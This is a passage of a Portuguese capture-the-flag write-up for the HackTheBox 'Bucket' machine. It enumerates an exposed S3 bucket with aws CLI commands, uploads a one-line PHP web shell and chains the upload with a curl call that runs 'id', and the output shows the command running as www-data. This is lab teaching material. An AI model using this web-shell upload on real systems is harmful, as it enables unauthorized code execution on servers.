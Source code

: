 Como sabemos que temos um **s3** também em execução, enumerei algumas informações sobre os containers blob existentes, onde foi encontrado o `adserver` (o que já tínhamos uma ideia por conta da URL das imagens conforme previamente enumerado) e confirmamos qual o conteúdo deste bucket.

```bash
$ aws s3 ls \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
2021-02-26 11:48:02 adserver

$ aws s3 ls s3://adserver \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
                           PRE images/
2021-02-26 11:50:04       5344 index.html

$ aws s3 ls s3://adserver/images/ \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
2021-02-26 11:52:02      37840 bug.jpg
2021-02-26 11:52:02      51485 cloud.png
2021-02-26 11:52:02      16486 malware.png
```

## Acesso inicial

Uma vez que temos acesso ao blob s3 e sabemos quais conteúdos disponíveis e como utilizá-lo, a primeira coisa a se fazer é realizar o upload de um arquivo para shell reverso. Em primeiro momento vamos validar a possibilidade de utilizar php com um webshell simples conforme abaixo:

```php
<?php system($_GET['cmd']); ?>
```

Após a criação do arquivo, realizado o upload via CLI vide comandos abaixo:

```bash
$ aws s3 cp ./exploit.php s3://adserver/ \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
upload: ./exploit.php to s3://adserver/exploit.php                

$ aws s3 --endpoint-url http://s3.bucket.htb --profile bucket.htb ls s3://adserver/              
                           PRE images/
2021-02-26 11:56:28         31 exploit.php
2021-02-26 11:56:02       5344 index.html
```

Ao tentar acessá-lo alguns instantes depois, notei que o arquivo que enviei foi removido por outro processo. Para tentar contornar a questão, configurei para que a chamada de execução de comando fosse realizada assim que o upload fosse finalizado, executando o comando `id`, onde pudemos confirmar o sucesso na tarefa realizada.

```bash
$ aws s3 cp ./exploit.php s3://adserver/ \
    --endpoint-url http://s3.bucket.htb --profile bucket.htb && curl -L http://bucket.htb/exploit.php?cmd=id
upload: ./exploit.php to s3://adserver/exploit.php                
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
